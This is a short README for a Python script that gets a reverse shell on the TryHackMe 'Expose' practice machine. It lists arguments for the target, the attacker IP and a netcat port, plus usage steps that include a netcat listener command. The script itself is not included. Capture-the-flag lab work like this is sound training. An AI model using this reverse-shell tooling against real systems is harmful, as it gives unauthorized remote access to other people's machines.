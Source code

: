 ## Expose-Tryhackme
Python script to get direct reverse shell of expose machine on tryhackme

- -u = website's IP
- -p = port on which website is running like 1337
- -a = attacker's IP , Your tun0 IP
- -nc = Netcat port , ex : 9001

#### Steps : 
1. run : rlwrap nc -nlvp {port
2. python3 shell.py -u {value} -p {value} -a {value} -nc {value}
3. Enjoy you shell

##### THANKYOU!
